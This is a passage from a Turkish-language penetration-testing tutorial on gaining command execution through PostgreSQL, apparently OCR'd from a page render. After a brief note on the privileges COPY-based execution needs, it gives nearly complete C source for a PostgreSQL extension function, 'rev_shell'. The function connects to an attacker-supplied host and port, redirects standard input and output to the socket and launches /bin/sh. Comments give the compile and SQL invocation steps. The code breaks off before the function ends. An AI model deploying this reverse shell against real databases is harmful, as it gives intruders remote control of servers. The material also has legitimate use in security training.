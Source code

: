 #### Permissions

Remote code execution için `COPY` kullanmak için, kullanıcının [pg_execute_server_program](https://www.postgresql.org/docs/11/default-roles.html) rolüne sahip olması veya superuser olması gerekir.

## Method 2: PostgreSQL Extensions

`PostgreSQL`'de komut çalıştırmanın biraz daha karmaşık ikinci bir yolu da bir `PostgreSQL` `Extension`'ı oluşturmaktır. [Extensions](https://www.postgresql.org/docs/current/external-extensions.html), özel fonksiyonlar eklemek için `PostgreSQL`'e yüklenebilen kütüphanelerdir.

Örnek olarak, `PostgreSQL` için `postgres` kullanıcısı olarak bir `reverse shell` döndüren aşağıdaki özel `C` extension'ını derleyip kullanacağız:

```c
// Reverse Shell as a Postgres Extension
// William Moody (@bmdyy)
// 08.02.2023

// CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '.../pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
// SELECT rev_shell('127.0.0.1', 443);
// DROP FUNCTION rev_shell;

// sudo apt install postgresql-server-dev-<version>
// gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c

#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdio.h>

#include "postgres.h"
#include "fmgr.h"
#include "utils/builtins.h"

PG_MODULE_MAGIC;

PG_FUNCTION_INFO_V1(rev_shell);

Datum
rev_shell(PG_FUNCTION_ARGS)
{
    // Get arguments
    char *LHOST = text_to_cstring(PG_GETARG_TEXT_PP(0));
    int32 LPORT = PG_GETARG_INT32(1);

    // Define necessary struct
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(LPORT); // LPORT
    inet_pton(AF_INET, LHOST, &serv_addr.sin_addr); // LHOST

    // Connect to target
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    int client_fd = connect(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr));

    // Redirect STDOUT/IN/ERR to connection
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    // Start interactive /bin/sh
    execve("/bin/sh", NULL, NULL);
```